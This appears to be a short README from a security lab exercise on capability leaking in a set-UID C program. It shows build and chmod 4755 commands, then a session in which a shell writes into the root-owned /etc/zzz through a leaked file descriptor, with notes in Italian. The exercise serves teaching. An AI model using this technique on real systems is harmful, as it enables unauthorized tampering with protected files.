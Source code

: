 # capability-leak-attack
This is a linux bash capability leak attack whit C program.

CAPABILITY LEAKING of set-UID

You need to compile cap_leaking.c
gcc -o cap_leaking cap_leaking.c

change the user owner and set the set-UID in the cap_leaking file
sudo chown root cap_leaking
sudo chmod 4755 cap_leaking


Now if I run the program it print the number of file descriptor.
`fd is 3
Real user id is 1000
Effective user id is 1000
$whoami
$seed
$echo bbbbbb >&3
$cat /etc/zzz
$this is a very important file
 bbbbbb`



######
il problema qua e' che non e' stato chiuso il file descriptor del file 
e la shell che apro ha gli stessi privilegi
il file descriptor e' indicato con il numero 3
normalemente non sono abilitato a scrivere nel file zzz ma quando abilito il 4755 chmod allora apro la shell con gli stessi privilegi di 4755
#####
